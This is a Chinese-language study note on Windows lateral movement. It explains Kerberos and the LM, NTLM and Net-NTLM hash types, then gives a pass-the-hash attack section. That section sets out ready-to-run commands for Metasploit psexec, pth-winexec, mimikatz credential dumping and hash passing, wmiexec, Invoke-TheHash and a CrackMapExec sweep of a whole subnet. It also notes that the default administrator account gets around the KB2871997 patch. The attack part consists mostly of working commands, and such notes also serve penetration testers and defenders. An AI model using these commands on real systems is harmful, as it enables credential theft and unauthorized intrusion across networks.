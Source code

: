 # windows横向移动学习

## 基础知识

### 本地认证流程

·![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007185004.png)



### kerberos

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007165908.png)

#### 名词解释

```
KDC (Key Distribution Center):密钥分发中心，包含AS和TGS服务
AS (Authentication Server):身份认证服务
TGS(Ticket Granting Server):票据授权服务
TGT(Ticket Granting Ticket)：由身份认证授予的票据，用于身份认证，存储在内存中，默认有效期为10小时
```



#### 认证过程

```
第一:从AS服务器中获取TGT票据
用户在客户端输入账号和密码之后，会对密码进行hash处理，作为user-secret-key
1. 客户端将用户名发送给AS服务器申请服务,在AS服务器中会对用户名进行验证，在AS服务器本地数据库中查询到该用户名的密码，并使用hash生成user-secrect-key.
2. AS服务器向用户发送两样东西：
   1） Client/TGS会话密钥，使用user-secrect-key进行加密
   2） TGT，包含TGS会话密钥，用户信息，时间戳，TGT有效期。使用TGS密钥进行加密
3. 用户接收到消息之后，回使用本地的user-secret-key对消息1)进行解密，如果解密成功，说明用户提供的凭证是正确的,此时用户得到了加密后的TGT。
第二:从TGS服务器中获取访问权限
1. 客户端向TGS服务器发送信息：
   1） 第一步骤中的TGT
   2） 认证信息（认证符(Authenticator)），包含用户id以及时间戳，通过TGS会话密钥进行加密。
2. TGS服务器收到消息之后，会使用TGS密钥对消息1）进行解密,获取到TGS会话密钥，进而对消息2）进行解密，在对用户id以及时间戳进行认证，如果认证成功，向客户端发送消息：
   1） client-server-ticket(包含SS会话密钥，用户名信息以及时间戳)，使用ss密钥进行加密
   2） ss会话密钥使用TGS会话密钥进行加密
3. 客户端收到信息之后会对消息2）进行解密，获得ss会话密钥。
第三：访问服务
1. 客户端向ss服务器发送以下消息：
   1）第二步骤中的client-server-ticket
   2）新的Authenticator，包含用户信息，时间戳。通过SS会话密钥进行加密
2. SS服务器收到消息之后，会使用ss密钥对消息1）进行解密，解密之后使用ss会话密钥对消息2）解密，解密成功之后会得到authenticator，认证之后，发送：
   1）新时间戳，Client发送的时间戳加1，通过ss会话密钥进行加密
3. 客户端收到时间戳之后，解密确认，成功之后发送服务请求
4. ss服务器收到之后提供服务。
```







### 三种hash

#### LM HASH

LAN Manager（LM）哈希是Windows系统所用的第一种密码哈希算法,，用于老版本Windows系统登录认证。在LAN Manager协议中使用，非常容易通过暴力破解获取明文凭据。但是在Windows Vista和Windows 7系统之后，这种哈希算法是默认关闭。

 LM HASH生成规则如下：

- 用户的密码被限制为最多14个字符。
- 用户的密码转换为大写。
- 密码转换为16进制字符串，不足14字节将会用0来再后面补全。
- 密码的16进制字符串被分成两个7byte部分。每部分转换成比特流，并且长度位56bit，长度不足使用0在左边补齐长度，再分7bit为一组末尾加0，组成新的编码（str_to_key()函数处理）
- 上步骤得到的8byte二组，分别作为DES key为"KGS!@#$%"进行加密。
- 将二组DES加密后的编码拼接，得到最终LM HASH值。

#### NTML



NTML 是用于 Windows NT 和 Windows 2000 Server 工作组环境的身份验证协议,主要用于Windows Vista及其之后的系统。它还用在必须对 Windows NT 系统进行身份验证的混合 Windows 2000 Active Directory 域环境中。这类Hash可以直接用于PtH，并且通常存在于lsass进程中，便于SSP使用。**获取后可直接用于Hash传递攻击**

Windows系统下hash密码格式 用户名称:RID:LM-HASH值:NT-HASH值，

可以用LM-HASH值:NT-HASH值去在线查询http://www.objectif-securite.ch/en/ophcrack.php或者使用GetHashes、Ophcrack破解系统Hash密码生成过程

![](https://raw.githubusercontent.com/Explorersss/photo/master/20201007184802.png)



#### NET-NTML HASH

NET-NTLM HASH是指网络环境下NTLM认证中的hash，有两种一种是Net-NTLMv1另一种是Net-NTLMv2。

Net-NTLMv1 相对脆弱，自Windows Vista/Server2008开始，系统默认禁用Net-NTLMv1，使用Net-NTLMv2。

虽然不能直接用与hash传递攻击，但是可以**通过smb中继来利用**



## PTH(PASS THE HASH，哈希传递攻击)



适用于

```
域/工作组环境
可以获得hash,但是条件不允许对hash爆破
内网中存在和当前机器相同的密码
```



### metepreter

```
use exploit/windows/smb/psexec_psh
set smbdomain xx.int
Set SMBuser admin
set SMBPass 01FC5A6BE7BC6929AAD3BXXX:0CB6948805F7XXXXX807973B89537
```





### pth-exec



```
pth-winexec -U pentestlab/administrator%eb9e3066e4d25b5025ad3b83fa6627c7:03bebb338e70244589ea67c7439c77ba //1.1.1.21 cmd.exe
```



### mimikatz

先抓密码取得NTMLhash，mimikatz实现了在禁用NTLM的环境下仍然可以远程连接。

```
privilege::debug
sekurlsa::logonpasswords

mimikatz # sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /ntlm:11ec7935618f326490509a0703fbadb8
```



#### aes key 远程连接

前提：安装kb2871997

获取aes key

```
privilege::debug
sekurlsa::ekeys
```



pth

```
privilege::debug 
sekurlsa::pth /user:Administrator /domain:FENTESTLAB.com /aes256:f74b379b5b422819db694aaf78f49177ed21c98ddad6b0e246a7e17df6d19d5c

dir \\WIN-8VVLRPIAJB0\c$
```



### wmiexec

wmi是从windows从03/xp开始win内置的插件，是为了管理员能更加方便的对远程windows主机进行各种日常管理。

win版：https://github.com/maaaaz/impacket-examples-windows

python版：https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

```
wmiexec -hashes 00000000000000000000000000000000:7ECFFFF0C3548187607A14BAD0F88BB1 域名/用户名@192.168.1.1 "whoami"
```



### Invoke-TheHash

https://github.com/Kevin-Robertson/Invoke-TheHash

```
Invoke-WMIExec -Target 1.1.1.22 -Domain pentestlab -Username administrator -Hash 7ECFFFF0C3548187607A14BAD0F88BB1 -Command "command or launcher to execute" -verbose

```



### crackmapexec

这个工具可以对C段进行批量尝试pth，可以先ew代理到kali

https://github.com/byt3bl33d3r/CrackMapExec.git

```
crackmapexec 1.1.1.0/24 -u administrator -H 11ec7935618f326490509a0703fbzdb8
```

### bypass

#### KB2871997

微软再2014年5月13日发布了针对Hash传递的补丁KB2871997，更新用于禁止本地管理员用于远程连接，这样本地管理员无法以本地管理员权限在远程主机上之洗礼wmi,psexec等。然而在实际的测试中发现常规的Hash传递虽已无法成功，但默认administrator(sid500) 账号除外，即使改名，这个账号仍然可以进行Hash传递攻击。